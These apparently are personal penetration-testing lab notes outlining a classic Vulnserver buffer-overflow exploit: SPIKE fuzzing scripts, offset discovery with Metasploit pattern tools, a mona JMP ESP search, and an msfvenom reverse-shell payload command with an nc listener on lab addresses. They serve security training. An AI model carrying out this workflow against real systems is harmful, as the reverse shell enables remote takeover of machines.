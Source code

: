 [from within VM raste-dropbox-01] sudo openvpn raste-dropbox-01.ovpn
[from within VM raste-dropbox-01] sudo reboot
[from within VM raste-windows-controller] rdp to raste-dropbox-01

### Buffer Overflows
Classic example: Vulnserver (32-bit Windows buffer overflow)
https://tcm-sec.com/2019/05/25/buffer-overflows-made-easy/
Memory (top to bottom): Kernel -> Stack -> Heap -> Data -> Text
Stack anatomy (top to bottom): ESP -> Buffer -> EBP -> EIP
General methodology:
	1. Spiking:
		generic_send_tcp 192.168.254.29 9999 stats.spk 0 0
		generic_send_tcp 192.168.254.29 9999 trun.spk 0 0
	2. Fuzzing:
		./1.py
	3. Finding the offset:
		/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
		./2.py
		EIP 386F4337
		/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337
	4. Overwriting the EIP:
		./3.py
	5. Finding bad characters:
		./4.py
	6. Finding the right module:
		https://github.com/corelan/mona/blob/master/mona.py
		Copy mona.py to C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands
		Execute the command "!mona modules" in Immunity Debugger
		Find the op code equivalent of a JMP
		/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
		nasm > JMP ESP
		Execute in Immunity: "!mona find -s "\xff\xe4" -m essfunc.dll"
		Note down 0x625011af
		Set breakpoint in Immunity at 625011af
		./5.py
	7. Generating shellcode and gaining root:
		msfvenom -p windows/shell_reverse_tcp LHOST=192.168.254.28 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
		nc -nvlp 4444
		./6.py
		BINGO!

#### stats.spk
s_readline();
s_string("STATS ");
s_string_variable("0");

#### trun.spk
s_readline();
s_string("TRUN ");
s_string_variable("0");

